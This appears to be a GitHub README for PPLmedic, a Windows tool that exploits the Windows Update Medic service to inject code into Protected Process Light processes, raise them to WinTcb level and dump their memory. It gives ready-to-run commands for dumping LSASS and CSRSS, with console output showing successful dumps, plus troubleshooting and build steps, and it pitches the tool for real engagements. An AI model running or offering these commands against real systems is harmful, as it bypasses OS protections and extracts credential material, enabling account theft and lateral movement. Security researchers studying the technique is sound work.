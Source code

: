 # PPLmedic

This tool implements a **Userland** exploit chain for injecting arbitrary code into a PPL with the signer type `Windows` and elevating to the signer type `WinTcb`. These techniques were originally discussed by James Forshaw (a.k.a. [@tiraniddo](https://infosec.exchange/@tiraniddo)) in his blog post [Injecting Code into Windows Protected Processes using COM - Part 1](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html).

To learn more about this tool, you should read its companion blog post here:

- TODO: [Bypassing PPL in Userland (again)]()

<p align="center">
  <img src="poc.png">
</p>

## 💣 Disclaimer

I would qualify this tool as an _advanced Proof-of-Concept_. You should think twice before using it on a real engagement. It is safe to use as long as it is __not interrupted__, which cannot be guaranteed in the presence of an EDR for instance.

It modifies important registry keys related to the Windows Update Medic service. At worst, if those registry keys are not restored properly, this service will fail to function properly, but this __will not crash__ the OS.

## 📝 Usage

Prerequisites:

- __Privileges:__ Administrator or SYSTEM with `SeDebugPrivilege`
- __Platform:__ Windows 10/11 or Windows Server 2019/2022

```bat
REM Use the option -p to elevate from PPL-Windows to PPL-WinTcb
PPLmedic.exe dump "PID" "C:\FULL\PATH\TO\DUMP.dmp" [-p]
```

Dump a PPL-Windows or below (e.g.: LSASS):

```console
C:\WINDOWS\system32>tasklist | findstr lsass
lsass.exe                      756 Services                   0     20,028 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 756 c:\Temp\lsass.dmp -p
[...]
[+] Payload DLL successfully loaded after 272 attempts!
[*] Deleting 272 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[+] Memory dump of process with PID 756 successful: c:\Temp\lsass.dmp
[...]
```

Dump a PPL-WinTcb (e.g.: CSRSS):

```console
C:\WINDOWS\system32>tasklist | findstr csrss
csrss.exe                      520 Services                   0     26,420 K
csrss.exe                      608 Console                    1     57,548 K

C:\WINDOWS\system32>C:\Temp\PPLmedic.exe dump 520 c:\Temp\csrss.dmp -p
[...]
[+] Payload DLL successfully loaded after 181 attempts!
[*] Deleting 181 temporary directories created by the service...
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[+] Target file 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' should now be cache signed (level=12 - Windows).
[*] Connected to remote process.
[+] Remote process protection level: 0x00000000 (PsProtectedSignerWinTcb-Light)
[+] Memory dump of process with PID 520 successful: c:\Temp\csrss.dmp
[...]
```

## 📋 Tests

| Windows version | PPL-Windows | PPL-WinTcb | Observation |
| --- | :---: | :---: | --- |
| __Windows 10__ 22H2 Build 19045.2673 | ✔ | ✔ | N/A |
| __Windows 11__ 22H2 Build 22621.1344 | ⚠ | ❌ | Frequent service crash + Fake cached signature exploit does not seem to work. |
| __Windows Server 2019__ Version 1809 Build 17763.4010 | ✔ | ✔ | N/A |
| __Windows Server 2022__ Version 21H2 Build 20348.1547 | ✔ | ✔ | N/A |

## 🚧 Known issues

You get the following error because the exploit __timed out__ while trying to create a remote `TaskHandler` COM object. This is usually the sign that the target service `WaaSMedicSvc` crashed. This can be confirmed with the next message: `[!] Service WaaSMedicSvc is no longer running`. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Unexpected error or timeout while trying to create a remote TaskHandler instance.
[!] Service WaaSMedicSvc is no longer running, it probably crashed because of an invalid handle value.
[...]
```

You get the following error because the exploit failed to write a valid object directory in __less than 1000 attempts__. This limit serves as a failsafe to prevent the target service from consuming too much resources. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[...]
[*] Attempt 1000/1000 (100%)
[-] Reached the maximum number of attempts.
[...]
```

You get the following error because an unexpected error occurred when calling `LaunchDetectionOnly` or `LaunchRemediationOnly`. This should be quite rare though. __You should try to run the tool again.__

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp
[...]
[*] Trying to write a valid object directory handle...
[*] Attempt 100/1000 (10%)
[*] Attempt 200/1000 (20%)
[-] Failed to write LdrpKnownDllDirectoryHandle value (thread exit code: 0x800706ba).
[...]
```

You get the following error because the exploit __failed to cache sign__ the payload DLL. The oplock set on the catalog file was probably never triggered because it was already opened by the Kernel. You can try to rerun the tool at a later time (for Windows 11, refer to the "Tests" section).

```console
C:\Windows\System32>C:\Temp\PPLmedic.exe dump 1234 C:\Temp\1234.dmp -p
[...]
[*] Trying to write a valid object directory handle...
[+] Payload DLL successfully loaded after 1 attempts!
[*] Connected to remote process.
[+] Remote process protection level: 0x00000002 (PsProtectedSignerWindows-Light)
[*] Attempting to get a higher process protection level...
[-] Failed to cache sign 'C:\Users\LAB-AD~1\AppData\Local\Temp\faultrep.dll' (LE: 997).
[...]
```

## 🏗 Build instructions

This Visual Studio Solution comprises two projects (the executable and a payload DLL) that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions. The compiled payload DLL is automatically embedded into the final executable.

1. Open the Solution with Visual Studio 2019.
2. Select `Release / x64` (`x86` is not supported!).
3. `Build > Build Solution`.

## 🎓 Credits

- [@tiraniddo](https://infosec.exchange/@tiraniddo) - Injecting Code into Windows Protected Processes using COM - Part 1  
[https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html](https://googleprojectzero.blogspot.com/2018/10/injecting-code-into-windows-protected.html)
